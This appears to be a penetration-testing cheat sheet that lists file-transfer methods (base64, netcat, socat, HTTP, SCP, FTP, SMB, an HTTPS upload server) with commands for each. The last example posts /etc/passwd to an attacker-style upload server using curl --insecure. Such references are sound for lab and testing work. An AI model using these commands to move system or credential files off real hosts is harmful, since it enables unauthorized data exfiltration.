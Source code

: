 # Base64

**Sender:** `cat file | base64 -w 0;echo` <br>
**Reciever** `echo -n base64payload | base64 -d > filename`   Confirm md5 hash match in linux: `md5sum file`

# Netcat
**Sender:** `nc 10.10.10.10 4444 < file`<br>
**Reciever:** `nc -lvp 4444 > file`

# Web 

**Sender:** `python3 -m http.server 8080` <br>
**Reciever:** `wget http://10.10.10.10:8080/file` or `curl`

# SSH
**Sender:** `scp file username@hostname:/home/user/`<br>
**Reciever:** `scp username@hostname:/root/file .`<br>

# Socat

**Sender:** `socat TCP:192.168.0.107:4545 /home/kali/transfer.file`<br>
**Reciever:** `socat TCP-LISTEN:4545 /home/hunter/transfer.file`

# FTP
**Sender:** `python3 -m pyftpdlib -p21 -w` or `python3 -m pyftpdlib -u admin -P 8618` with user and password<br>
**Receiever** `ftp IP port` and put, get commands

# SMB
Without password from `/usr/share/doc/python3-impacket/examples`<br>
**Sender:** `python3 smbserver.py sharename /home/hunter`<br>
**Receiever:** `smbclient //IP/Sharename`<br>
With password:<br>
**Sender:** `python3 smbserver.py -username admin -password 8618 adminshare /home/hunter`<br>
**Reciever:** `smbclient -U admin //192.168.0.107/adminshare` <br>

# Upload server

1) Create openssl certificate:
```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
2) Start upload server:
```bash
sudo python3 -m uploadserver 443 --server-certificate /location/server.pem
```
**Reciever:** `curl -X POST https://192.168.0.107/upload -F 'files=@/etc/passwd' --insecure` or browse web server to `/upload` location
